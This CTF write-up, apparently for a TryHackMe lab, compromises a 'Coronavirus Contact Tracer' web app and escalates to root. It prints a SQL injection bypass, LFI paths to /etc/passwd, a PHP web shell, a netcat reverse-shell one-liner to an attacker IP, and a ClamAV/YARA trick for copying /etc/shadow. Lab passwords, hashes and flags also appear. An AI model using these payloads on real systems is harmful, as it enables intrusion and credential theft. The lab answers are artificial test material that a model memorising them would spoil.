 I conducted an analysis and penetration test of the Coronavirus Contact Tracer web application hosted on the target machine.

1. Reconnaissance Phase
The first step was network scanning using Nmap to identify open ports and services. The following were discovered and identified:

Port 22/tcp: SSH (OpenSSH 7.6p1 on Ubuntu)

Port 80/tcp: HTTP (Apache 2.4.29 on Ubuntu) hosting the "Coronavirus Contact Tracer" web application

2. Web Analysis and Initial Compromise
Analysis of the web application's main page revealed an admin login panel. After its discovery, a series of vulnerability tests were conducted. A classic SQL injection payload was successfully used in the login form's input field:
' OR 1 = 1 -- -
This payload allowed me to bypass authentication and gain access to the application's admin panel.

3. Obtaining a Reverse Shell (Initial Foothold)
Within the admin panel, I found a file upload functionality (in the "System Info" section) without proper file extension validation. I exploited this to upload a modified php-reverse-shell script to the server.

Before uploading, the necessary changes were made to the script's code: the correct IP address and port of my machine were specified for the reverse connection. After uploading the file, a netcat listener was started on the specified port. The script was activated by directly accessing the uploaded file through the browser, which initiated a reverse connection to my machine. This resulted in initial access with the privileges of the www-data user.

4. Privilege Escalation: Lateral Movement to User Cyrus
After stabilizing the shell (using python3 -c "import pty;pty.spawn('/bin/bash')"), the post-exploitation phase began to search for paths for privilege escalation.

Manual enumeration of the file system was conducted. A key discovery was the database configuration file located at /var/www/html/config.php. Analysis of its contents revealed that it includes another file — classes/DBConnection.php.

Examining the DBConnection.php file allowed me to find plaintext credentials (username and password) used by the application to connect to the MySQL database:

php
<?php
class DBConnection{
    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';
    private $database = 'cts_db';
    // ... rest of the class code ...
}
?>
I have currently paused at the stage of analyzing these obtained credentials. The plan for next steps includes:

Testing the hypothesis of password reuse (YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE) for the system users cyrus and/or maxine, who were found in the /home directory.

Attempting SSH authentication using the found credentials.

Connecting directly to the cts_db database to gather additional sensitive information that could aid in further advancement.

In summary, I have successfully gained initial access, bypassed the application's authentication, obtained source code, and extracted critical credentials, which opens paths for further lateral movement and privilege escalation.

PART2

In the source code of the login page (login.php), a comment was discovered revealing the page loading mechanism through the page parameter:

<!-- <a href="?page=login">Developer Note: Use ?page= parameter to load pages e.g. ?page=login</a> -->


This functionality was vulnerable to a Local File Inclusion (LFI) attack, which allowed reading arbitrary files on the server.

Exploiting LFI

The vulnerability was leveraged to obtain critical system information:

Reading the password file: Confirmed the list of system users.

http://contacttracer.thm/?page=../../../../../../etc/passwd


Reading source code: Using filter bypass techniques, PHP source code of application pages was obtained for further analysis.

http://contacttracer.thm/?page=php://filter/convert.base64-encode/resource=login

Web shell upload and gaining a shell

The application contained a file upload (avatar) feature. By creating a file with a double extension (e.g., shell.php.jpg) containing a PHP shell, it was possible to bypass validations and upload it to the server.

Shell code:

<?php system($_REQUEST["cmd"]); ?>


To obtain a reverse shell through the uploaded web shell, the following command was used:

cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f


As a result, a reverse shell was obtained with www-data privileges.

2. Privilege Escalation to User cyrus

Credential discovery in application files:
Database credentials were found in the configuration file /var/www/html/classes/DBConnection.php:

private $username = 'cts';
private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';


Database analysis:
Using these credentials, access was gained to the database cts_db. Querying the users table revealed the password hash for the admin user:

mysql> select * from users;
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                        | last_login | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 3eba6f73c19818c36ba8fea761a3ce6d | uploads/1614302940_avatar.jpg | NULL       | 2021-01-20 14:02:37 | 2021-02-26 10:23:23 |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+


Cracking the hash:
The hash 3eba6f73c19818c36ba8fea761a3ce6d was identified as MD5 and successfully cracked using CrackStation.
Password: sweetpandemonium

Switching to user cyrus:
The cracked password matched the system user cyrus. Switching user gave access and the user.txt flag was obtained.

www-data@lockdown:/var/www/html$ su cyrus
Password: sweetpandemonium
cyrus@lockdown:~$ cat user.txt
THM{w4c1F5AuUNhHCJRtiGtRqZyp0QJDIbWS}

3. Privilege Escalation to User maxine

Sudo rights analysis:
User cyrus could execute the script scan.sh as root without a password.

cyrus@lockdown:~$ sudo -l
User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh


Script analysis (scan.sh):
The script used ClamAV (clamscan) to scan files. Infected files were copied to the quarantine directory of user cyrus.

#!/bin/bash
read -p "Enter path: " TARGET
if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi


Exploiting ClamAV:
The ClamAV signature database directory /var/lib/clamav was writable. The default database file main.hdb was replaced with a custom YARA rule that flagged any file containing the string “root” as malicious.

cyrus@lockdown:/var/lib/clamav$ cat > rule.yara << EOF
rule test
{
  strings:
    $a = "root"
  condition:
    $a
}
EOF


Stealing password hashes:
The /etc/shadow file was scanned. The script (running as root) copied it to the quarantine directory.

cyrus@lockdown:~$ sudo /opt/scan/scan.sh
Enter path: /etc/shadow
/etc/shadow: YARA.test.UNOFFICIAL FOUND
/etc/shadow: copied to '/home/cyrus/quarantine/shadow'


Cracking maxine’s password:
From /etc/shadow, the hash for user maxine was extracted:

$6$/syu6s6/$Z5j6C61vrwzvXmFsvMRzwNYHO71NSQgm/z4cWQpDxMt3JEpT9FvnWm4Nuy.xE3xCQHzY3q9Q4lxXLJyR1mt320


It was cracked with john and the rockyou.txt wordlist. Password: tiarna

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt


Switching to user maxine:

cyrus@lockdown:~$ su maxine
Password: tiarna
maxine@lockdown:~$

4. Root Privileges

Sudo rights analysis for maxine:
User maxine had full sudo rights for all commands.

maxine@lockdown:~$ sudo -l
User maxine may run the following commands on lockdown:
    (ALL : ALL) ALL


Getting root:
By executing sudo su, root access was obtained and the final flag was captured.

maxine@lockdown:~$ sudo su
root@lockdown:/home/maxine# id
uid=0(root) gid=0(root) groups=0(root)
root@lockdown:~# cat /root/root.txt
THM{IQ23Em4VGX91cvxsIzatpUvrW9GZJxm}

Conclusions and Recommendations

Findings:

LFI vulnerability: Insufficient sanitization of user input.

Plain-text credentials: Database passwords stored unencrypted in config files.

Weak password policy: Use of weak and reused passwords.

Improper permissions: Writable ClamAV database directory by non-root users.

Excessive sudo privileges: User maxine granted full sudo rights unnecessarily.

Recommendations:

Implement strict input validation and sanitization for all user inputs.

Store secrets securely using environment variables or Vault services, not in plaintext.

Enforce a strong password policy and require multi-factor authentication.

Apply the principle of least privilege to file permissions and sudo configurations.

Perform regular audits of system configurations and access rights.


